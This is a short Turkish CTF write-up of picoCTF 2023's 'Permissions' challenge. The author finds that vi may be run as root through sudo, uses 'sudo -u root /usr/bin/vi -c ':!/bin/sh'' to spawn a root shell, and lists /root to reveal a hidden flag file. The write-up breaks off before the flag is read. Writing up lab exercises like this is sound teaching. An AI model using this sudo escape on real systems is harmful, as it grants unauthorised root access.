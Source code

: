 ```yaml
---
title: 'picoCTF 2023 | Permissions WriteUp'
author: appdone
categories: [picoCTF 2023]
tags: [sudo]
render_with_liquid: false
---
```


Bu yazımda, picoCTF platformunda yer alan "Permissions" isimli meydan okumayı çözeceğiz. Amacımız picoCTF tarafından sağlanan linux sistemde yetki yükselterek /root dizininden bayrağı almaktır.

```console
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer:
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:~$
```

Sisteme bağlandıktan sonra ilk iş "sudo -l" komutunu kullandım ve vi aracını istediğim kullanıcının yetkisiyle çalıştırabileceğimi gördüm. -c parametresi ile seçilen programlama dilini kullanarak komut çalıştırabileceğimi biliyorum.

```
sudo -u root /usr/bin/vi -c ':!/bin/sh'
```

Komutu çalıştırdığımızda root haklarına sahip oluyoruz. Geriye sadece root dizinindeki bayrağı almak kalıyor. O da başına '.' konarak gizlenmiş. -a parametresini kullanarak görüntüleyebiliyoruz.

```console
picoplayer@challenge:~$ sudo -l
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:~$ sudo -u root /usr/bin/vi -c ':!/bin/sh'
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls -la
total 12
drwx------ 1 root root   23 Aug  4  2023 .
drwxr-xr-x 1 root root   51 Mar 14 21:47 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4  2023 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
```
